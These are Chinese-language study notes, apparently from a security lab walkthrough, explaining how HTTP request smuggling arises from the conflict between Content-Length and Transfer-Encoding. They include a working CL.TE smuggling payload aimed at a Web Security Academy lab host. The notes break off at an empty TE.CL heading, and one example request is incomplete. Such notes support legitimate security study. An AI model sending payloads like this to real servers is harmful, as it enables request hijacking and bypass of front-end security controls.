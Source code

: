 

request smuggling漏洞如何产生？

大多数http请求走私漏洞的出现是因为http规范提供了两种不同的方法来指定请求的结束位置，分别为：Content-Length和Transfer-Encoding标头。

Content-Length头是直接指定消息体的以字节为单位的长度，如：

```
POST /search HTTP/1.1
Host: normal-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```



该Transfer-Encoding首标可以被用于指定该消息体的用途分块编码。这意味着消息正文包含一个或多个数据块。每个块均由以字节为单位的块大小(以十六进制表示)组成，后跟换行符，然后是块内容。该消息以大小为零的块终止。例如:

```
POST / search HTTP/1.1
Host: normal-website.com
Content-Type: application/ x-www-form-urlencoded
Transfer-Encoding : chunked
```



### HTTP request smuggling, basic CL.TE vulnerability

payload:

```
POST / HTTP/1.1
Host: 0a1f002904fb416d82fefb0f00aa0091.web-security-academy.net
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

G
```

![image-20230503175737314](./KALI Linux.assets/image-20230503175737314.png)

CL.TE的本质是代理服务器以Content-Length来识别请求体当中的有效数据，而后台源服务器却以Transfer-Encoding来识别请求体当中的有效数据。当代理服务器收到请求之后，会将第8行及以下的所有数据（Content-Length的长度所对应的数据）转发给源服务器，这时源服务器使用Transfer-Encoding来识别请求有效数据并使用`0`作为数据的分割符，即`0`后面的数据默认在当次请求当中被丢弃，放入下一次请求当中，当下一次请求来到时，再将剩余的数据拼接到请求里面，这里便形成了`HTTP请求走私`。



### HTTP request smuggling, basic TE.CL vulnerability

payload:
